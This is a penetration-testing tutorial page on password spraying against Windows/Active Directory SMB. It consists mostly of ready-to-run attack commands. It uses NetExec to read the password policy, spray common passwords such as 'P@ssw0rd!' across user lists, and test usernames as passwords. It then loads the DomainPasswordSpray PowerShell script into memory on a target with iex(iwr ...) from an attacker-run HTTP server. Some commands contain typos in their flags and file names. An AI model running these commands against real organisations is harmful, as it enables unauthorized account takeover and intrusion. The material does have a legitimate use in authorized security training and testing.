


# 1.5 Password Spray

Password spraying is an authentication attack technique where an attacker attempts to access many user accounts using a few commonly used passwords, rather than brute-forcing one account with many passwords. This helps avoid account lockouts and reduces the chance of detection, making it effective against organizations with weak password policies.

***

## Get Password Policy

Before try password Spraying attack, we try to look at the password policies of the target system:

To see password policy:

```bash
nxc smb <DOMAIN> -u <USERNAME> -p <'PASSWORD'> --pass-pol
```

<figure><figcaption></figcaption></figure>

***

## Password Spraying Attack

Now we try to attack against <mark style="color:blue;">users.txt</mark> which we get on the enumeration phase (You can also use common user name lists from [SecLists](https://github.com/danielmiessler/seclists)) and use '<mark style="color:blue;">`P@ssw0rd!`</mark>' single password.

```bash
nxc smb <DOMAIN> -u <USERNAME-LISTS> -p 'P@ssw0rd!' --continue-on-success
```

<figure><figcaption></figcaption></figure>

And we see that the many users uses the same password.

***

## Get users have same password as their user name

Now lets try to get users which uses the same password as their username:

```bash
nxc smb -u <USERNAME-LISTS> -p <USERNAME-LISTS> --contiue-on-success
```

<figure><figcaption></figcaption></figure>

In the output many failed login attempt is showing so it is difficult to find the result if username lists has thousands or more users names.

So far, we using some trick to find the result:

```bash
nxc smb -u <USERNAME-LISTS> -p <USERNAME-LISTS> --contiue-on-success | tee -a <OUTFILE>
cat <OUTFILE> | grep +
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

And we successfully get the result.\
<mark style="color:$danger;">`-`</mark> ⇒ Means username and password is incorrect.

<mark style="color:$danger;">`+`</mark> ⇒ Means username and password is correct and successful login.

***

We can also use the random password for Password Spraying attack:

```bash
nxc smb <DOMAIN> -u <USERNAME-LISTS> -p 'Summer2025!' --continue-on-succsess | tee -a user-as-pass.txt
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

***

## Password Spray from Windows Powershell

Now try to Password Spraying from Windows Powershell.

Here we using [DomainPasswordSpray.py](https://github.com/dafthack/DomainPasswordSpray/tree/master) script to do this.

First we download the script on our local machine and then transfer or store the file into the target memory.

So we first download it on our local system and then transfer the file on the target system memory for attack.

First we copy the row script link from the browser.

<figure><figcaption></figcaption></figure>

Then run the `wget` command to download:

```bash
wget https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/refs/heads/master/DomainPasswordSpray.ps1
```

<figure><figcaption></figcaption></figure>

Now Start the python server to transfer file into the target system:

```bash
python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Now go to the windows system and run the following command to put this script into the memory:

```powershell
iex (iwr -UserBasicParsing http://<PAYTHON_SERVER_IP>/DomainPasswordSpray.ps1)
```

> Note: The powershell must be run as administrator mode.

Now we also store the userlists into the target memory:

```ps1
wget http://<PYTHONSERVERIP>/users.txt -o users.txt
type users.txt
```

<figure><figcaption></figcaption></figure>

Run the command to attack:

```ps1
Invoke-DomainPasswordSpray -Password <PASSWORD> -UserList .\user.txt
```

<figure><figcaption></figcaption></figure>

> This script give many options. We can use \<TAB> Key after entering tag (-) to change the options.

We can also use this script to find user name as a password:

```ps1
Invoke-DomainPasswordSpray -UsernameAsPassword -UserList .\user.txt
```

<figure><figcaption></figcaption></figure>
